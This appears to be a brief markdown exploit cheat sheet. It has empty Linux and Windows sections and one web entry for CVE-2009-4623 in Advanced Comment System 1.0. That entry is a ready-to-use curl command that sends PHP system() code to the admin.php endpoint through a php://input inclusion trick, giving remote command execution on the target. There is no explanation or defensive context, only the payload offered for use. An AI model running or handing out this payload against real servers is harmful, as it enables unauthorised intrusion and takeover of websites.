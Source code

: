 # CVE

## Linux



## Windows



## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
